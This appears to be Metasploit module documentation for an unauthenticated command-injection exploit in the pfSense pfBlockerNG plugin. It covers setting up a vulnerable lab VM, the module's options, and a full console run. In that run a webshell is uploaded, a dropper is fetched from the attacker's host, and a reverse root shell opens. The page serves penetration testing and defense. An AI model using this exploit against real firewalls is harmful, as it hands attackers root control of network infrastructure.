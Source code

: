 ## Vulnerable Application

### Description
This module exploits a vulnerability in the pfSense plugin, pfBlockerNG that allows remote unauthenticated
attackers to execute execute arbitrary OS commands as root via shell meta characters in the HTTP Host header.
Versions <= 2.1.4_26 are vulnerable. Note that version 3.x is unaffected.

### Setup
Download the pfSense image:

`wget https://atxfiles.netgate.com/mirror/downloads/pfSense-CE-2.5.2-RELEASE-amd64.iso.gz`

To obtain a vulnerable copy of the pfBlockerNG plugin, you can build it from source from the [official pfSense github
repo](https://github.com/pfsense/FreeBSD-ports/tree/devel/net/pfSense-pkg-pfBlockerNG), or it can be downloaded from
the following link:

`wget https://files01.netgate.com/pkg/pfSense_plus-v21_09_aarch64-pfSense_plus_v21_09/All/pfSense-pkg-pfBlockerNG-2.1.4_26.pkg`

Install the .iso file in your favorite virtualizing software. You may need to use the `UEFI` or `BIOS` installation
options to install the software correctly. For testing, `BIOS` was used. You may also need to set the WAN settings.
For this you can just use the default or set it to `hn0` which should also be the default, and this will work fine for
testing purposes.

Once installed pfSense will start and you can access the web GUI by navigating to `https://<pfSense-IP-address>/`.
Sign into the application with username: `admin` password: `pfsense`

Now at the top of the screen select System -> Advanced. Scroll down to the section named Secure Shell and tick the box
beside `Enable Secure Shell`. Then click the `Save` button at the the bottom of the page to apply the changes.

From your host machine we can now transfer the vulnerable package to the pfSense VM using `scp`

`scp pfSense-pkg-pfBlockerNG-2.1.4_26.pkg root@<pfSense-IP-address>:/`

(the root password of the VM will be the same as the admin password: `pfsense`)

Install the vulnerable package with: `pkg install pfSense-pkg-pfBlockerNG-2.1.4_26.pkg`

## Options

### WEBSHELL_NAME

This is the name of the webshell that will get uploaded to the pfsense target sans the ".php" ending.
If left unset the file name will be randomly generated.

## Verification Steps

1. Start msfconsole
1. `use unix/http/pfsense_pfblockerng_webshell`
1. Set the `RHOST` and `LHOST` options
1. `exploit`
1. Receive a shell as the `root` user

## Scenarios
### pfSense 2.5.2-RELEASE with pfSense-pkg-pfBlockerNG-2.1.4_26.pkg installed
```
msf6 > use exploit/unix/http/pfsense_pfblockerng_webshell
[*] Using configured payload bsd/x64/shell_reverse_tcp
msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > set RHOSTS 172.23.40.111
RHOSTS => 172.23.40.111
msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > set LHOST 172.23.47.143
LHOST => 172.23.47.143
msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > set LPORT 4453
LPORT => 4453
msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > set SRVPORT 8383
SRVPORT => 8383
msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > show options

Module options (exploit/unix/http/pfsense_pfblockerng_webshell):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS         172.23.40.111    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT          443              yes       The target port (TCP)
   SRVHOST        0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to
                                              listen on all addresses.
   SRVPORT        8383             yes       The local port to listen on.
   SSL            true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                         no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                         no        The URI to use for this exploit (default is random)
   VHOST                           no        HTTP server virtual host
   WEBSHELL_NAME                   no        The name of the uploaded webshell sans the ".php" ending. This value will be randomly generated if left unse
                                             t.


Payload options (bsd/x64/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   CMD    /bin/sh          yes       The command string to execute
   LHOST  172.23.47.143    yes       The listen address (an interface may be specified)
   LPORT  4453             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   BSD Dropper


msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > run

[*] Started reverse TCP handler on 172.23.47.143:4453 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Uploading shell...
[*] Webshell name is: zFOOjmPXX.php
[+] The target is vulnerable.
[*] Executing BSD Dropper for bsd/x64/shell_reverse_tcp
[*] Using URL: http://172.23.47.143:8383/ITtfiF
[*] Client 172.23.40.111 (curl/7.76.1) requested /ITtfiF
[*] Sending payload to 172.23.40.111 (curl/7.76.1)
[+] Deleted /usr/local/www/zFOOjmPXX.php
[*] Command shell session 1 opened (172.23.47.143:4453 -> 172.23.40.111:30301) at 2022-10-12 19:08:21 -0500

id
[*] Command Stager progress - 100.00% done (112/112 bytes)
[*] Server stopped.

uid=0(root) gid=0(wheel) groups=0(wheel)
whoami
root
uname -a
FreeBSD pfSense.home.arpa 12.2-STABLE FreeBSD 12.2-STABLE fd0f54f44b5c(RELENG_2_5_0) pfSense  amd64
```

